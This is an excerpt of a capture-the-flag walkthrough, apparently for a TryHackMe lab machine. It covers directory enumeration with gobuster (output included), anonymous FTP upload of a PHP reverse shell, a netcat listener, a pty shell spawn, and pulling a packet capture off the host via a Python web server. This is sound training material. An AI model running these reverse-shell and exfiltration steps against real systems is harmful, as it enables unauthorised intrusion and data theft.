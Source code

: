 ```
Nmap done: 1 IP address (1 host up) scanned in 43.85 seconds

```

2. Take a look at the website and the source code, nothing stands out. Run gobuster on the website
```
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u 10.10.148.222
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.148.222
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/28 20:03:47 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/files                (Status: 301) [Size: 314] [--> http://10.10.148.222/files/]
/index.html           (Status: 200) [Size: 808]                                  
/server-status        (Status: 403) [Size: 278]                                  
                                                                                 
===============================================================
2021/12/28 20:05:36 Finished
===============================================================

```

3. Check the files directory, it has an image called `Important.jpg` that can't be downloaded for some reason, a text file `notice.txt` with the text `Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.`, and an ftp folder with no files

4. Try logging into ftp with username `anonymous` or `ftp` and no password. Download and prepare the pentestmonkey php reverse shell, go to the ftp directory and upload the reverse shell with `put php-reverse-shell.php`. Then set up a netcat listener with `nc -nvlp <port>` and launch the shell with either the browser or curl. Make sure to spawn a proper shell with `python -c "import pty;pty.spawn('/bin/bash')"`

5. Explore the file system. The `incidents` folder and the `recipe.txt` file are both unusual, if we cat the contents of the recipe file we see that the secret ingredient is `love`. `Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.`

6. Now if we look at the `incidents` folder we see that it has a pcapng file called `suspicious.pcapng`, which can be opened with something like wireshark. To download this onto our machine, we can open a simple web server with python on a port that isn't being used `python3 -m http.server 8081`. Now we can go to the ip:port on the browser, navigate to the incidents folder, and download the file
